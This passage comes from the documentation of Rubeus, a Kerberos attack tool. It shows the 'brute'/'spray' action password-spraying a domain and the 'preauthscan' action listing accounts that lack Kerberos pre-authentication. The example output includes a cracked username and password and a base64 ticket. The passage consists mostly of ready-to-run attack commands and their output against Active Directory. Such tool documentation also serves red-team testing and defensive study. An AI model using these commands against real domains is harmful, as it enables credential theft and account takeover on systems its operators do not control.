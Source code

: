 The **brute** action will perform a Kerberos-based password bruteforcing or password spraying attack. **spray** can also be used as the action name.

    C:\Rubeus>Rubeus.exe brute /password:Password123!! /noticket

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.5.0

    [-] Blocked/Disabled user => Guest
    [-] Blocked/Disabled user => DefaultAccount
    [-] Blocked/Disabled user => krbtgt
    [-] Blocked/Disabled user => disabled
    [+] STUPENDOUS => newuser:Password123!!
    [*] base64(newuser.kirbi):

          doIFLDCCBSigAwIBBaEDAgEWooIELDCCBChhggQkMIIEIKADAgEFoRAbDlR...(snip)...

### preauthscan

The **preauthscan** action will send AS-REQ's for all usernames passed into the `/users` argument to discover accounts that do not require Kerberos pre-authentication.

    C:\Rubeus>Rubeus.exe preauthscan /users:uns.txt /domain:semperis.lab /dc:192.168.71.220

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v2.2.0

    [*] Action: Scan for accounts not requiring Kerberos Pre-Authentication

    [*] cclark: Pre-Auth Required
    [*] jjones: Pre-Auth Not Required
    [*] rwilliams: Pre-Auth Required
    [*] svc_sqlserver: Pre-Auth Required
    [*] pgreen: Pre-Auth Required
    [*] jsmith: Pre-Auth Required
    [*] tnahum: Pre-Auth Required
    [*] sfederovsky: Pre-Auth Required

## Constrained delegation abuse
